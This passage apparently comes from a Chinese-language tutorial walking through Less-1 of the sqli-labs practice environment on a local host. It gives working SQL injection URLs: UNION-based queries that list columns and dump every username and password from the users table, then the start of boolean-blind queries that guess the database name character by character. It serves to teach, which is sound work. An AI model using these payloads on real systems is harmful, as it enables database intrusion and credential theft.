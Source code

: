 ```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') --+
```

得到字段名

![得到字段名](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E5%AD%97%E6%AE%B5%E5%90%8D.png)

**拖库**

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,'_',password) from users) --+
```

为了方便显示可以换行显示

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x5F,password,0x3C,0x68,0x72,0x2F,0x3E) from users) --+
```

### 2.1.3. 布尔盲注

**爆库**

**判断数据库长度**

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and (length(database())=8) --+
```

> 长度为 8

**取数据库名的每个字符的 ascii 码**

第一个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) = 115 --+
```

> 第一个码为 115 是 s
